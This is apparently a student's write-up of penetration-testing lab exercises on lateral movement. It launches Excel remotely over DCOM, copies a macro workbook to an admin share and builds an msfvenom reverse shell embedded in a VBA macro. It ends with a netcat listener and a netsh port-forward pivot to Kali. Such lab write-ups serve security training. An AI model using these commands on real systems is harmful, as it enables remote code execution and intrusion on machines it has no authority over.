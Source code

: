 ### 21.4.4.1 Exercises
#### 1. Repeat the exercise of launching Notepad using Excel and DCOM.

#### Discover the available methods for an object

1. On Win10, create an instance of the Excel objectcalled `$com`

   ```powershell
   $com = [activator]::CreateInstance([type]::GetTypeFromProgId("Excel.Application","172.16.216.5"))
   ```

2. Create a new document in Excel, and create a macro with this code and save the Excel file in legacy format (97-2003 Workbook)

   ```vbscript
   Sub mymacro()
       Shell ("notepad.exe")
   End Sub
   ```

   ![image-20200729205614817](.21.4.4.1.assets/image-20200729205614817.png)

3. Copy the document to the remote computer.  This script works due to the assumption of Local Admin rights on the remote machine.

   ```powershell
   $LocalPath = "C:\Users\jeff_admin\Documents\myexcel.xls"
   $RemotePath = "\\172.16.216.5\c$\myexcel.xls"
   [System.IO.File]::Copy($LocalPath, $RemotePath, $True)
   ```

4. Create a Desktop folder for the SYSTEM account to satisfy Excel's profile requirement

   ```powershell
   # Create a var to make a Desktop folder for SYSTEM
   $Path = "\\172.16.216.5\c$\Windows\sysWOW64\config\systemprofile\Desktop"
   # Create the directory
   $temp = [system.io.directory]::createDirectory($Path)
   ```

5. Open the Excel document on the remote system using the `$com` object

   ```powershell
   $Workbook = $com.Workbooks.Open("C:\myexcel.xls")
   ```

6. Call the run method of the `$com` object to run the macro

   ```powershell
   $com.Run("mymacro")
   ```

7. Logged into the machine to show notepad.exe running in the background:
   ![image-20200729210036716](.21.4.4.1.assets/image-20200729210036716.png)

#### 2. Improve the attack by replacing the VBA macro with a reverse shell connecting back to Netcat on your windows student VM.

1. Use msfvenom to construct the payload using the hta format, but our LHOST will be the Windows 10 client we are attacking from (the interface that connects to the network of our target in this case)

   ```powershell
   msfvenom -p windows/shell_reverse_tcp LHOST=172.16.216.10 LPORT=4444 -f hta-psh -o badfile.hta
   ```

2. Open the badfile.hta file and copied from `"powershell.exe` to the quote at the end of the 64-bit encoded payload (but not the `,0` at the end)
   ![image-20200729210213546](.21.4.4.1.assets/image-20200729210213546.png)

3. Use a Python script to split the string into smaller chunks to overcome the VB Script limitations.
   ![image-20200729210306610](.21.4.4.1.assets/image-20200729210306610.png)
   
4. Paste this variable construct into the macro and call the str as the command:

   ```vbscript
   Sub mymacro()
       Dim Str As String
   Str = Str + "powershell.exe -nop -w hidden -e aQBmACgAWwBJAG4Ad"
       -----SNIPPED------
   Str = Str + "AYwBlAHMAcwBdADoAOgBTAHQAYQByAHQAKAAkAHMAKQA7AA=="
       CreateObject("Wscript.shell").Run Str
   End Sub
   ```

5. Upload updated Excel doc to the Server (had to kill the old Excel process on the Server first)

   ```powershell
   $LocalPath = "C:\Users\jeff_admin\Documents\myexcel.xls"
   $RemotePath = "\\172.16.216.5\c$\myexcel.xls"
   [System.IO.File]::Copy($LocalPath, $RemotePath, $True)
   ```

6. Start a netcat listener on Win10
   ![image-20200729210926588](.21.4.4.1.assets/image-20200729210926588.png)

7. Execute the Workbook Macro to get a reverse shell

   ```powershell
   $com = [activator]::CreateInstance([type]::GetTypeFromProgId("Excel.Application","172.16.216.5"))
   $Workbook = $com.Workbooks.Open("C:\myexcel.xls")
   $com.Run("mymacro")
   ```

   ![image-20200729211043593](.21.4.4.1.assets/image-20200729211043593.png)

#### 3. Set up a pivoting channel from the domain controller to your Kali machine and obtain a reverse shell.

1. Set up a netcat listener on Kali Linux
   ![image-20200730154918729](.21.4.4.1.assets/image-20200730154918729.png)

2. On Win10, used netsh to setup a local port forward from 4444 inbound to 8000 outbound to Kali.
   ![image-20200729212438188](.21.4.4.1.assets/image-20200729212438188.png)

3. Reran the Excel macro on the server to get a reverse shell forwarded to Linux

   ```powershell
   $com = [activator]::CreateInstance([type]::GetTypeFromProgId("Excel.Application","172.16.216.5"))
   $Workbook = $com.Workbooks.Open("C:\myexcel.xls")
   $com.Run("mymacro")
   ```

   ![image-20200729212528074](.21.4.4.1.assets/image-20200729212528074.png)

4. Celebrated that I got this right on my first try and didn't spend 3 hours on it.